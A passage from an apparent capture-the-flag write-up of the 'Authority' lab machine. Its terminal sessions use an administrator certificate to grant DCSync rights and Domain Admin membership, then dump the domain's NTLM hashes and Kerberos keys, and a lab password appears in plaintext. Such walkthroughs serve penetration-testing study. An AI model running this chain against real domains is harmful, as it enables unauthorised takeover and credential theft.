 ```shell
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -target svc_ldap -elevate
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Granted user 'svc_ldap' DCSYNC rights!
                                                                                                                                                                                              
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands

# add_user_to_group 
svc_ldap "Domain Admins"
Adding user: svc_ldap to group Domain Admins result: OK
```

![](assets/Authority_assets/Pasted%20image%2020230823191003.png)

- I can go ahead and dump the hashes in the domain now
```
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ impacket-secretsdump -just-dc 'svc_ldap:lDaP_1n_th3_cle4r!@10.10.11.222' -outputfile dcsync_hashes         
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:09dd9e3b63ad57ea6c86f88b488b7378:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:4530f7da5780ab7e32febb9d86e447390fed8adfc46fe3cc27caefeb076609d8
AUTHORITY$:aes128-cts-hmac-sha1-96:8c4c63885c124efc2dfbb11c9a5f9378
AUTHORITY$:des-cbc-md5:dadfd5efa1d9eafe
[*] Cleaning up...
```
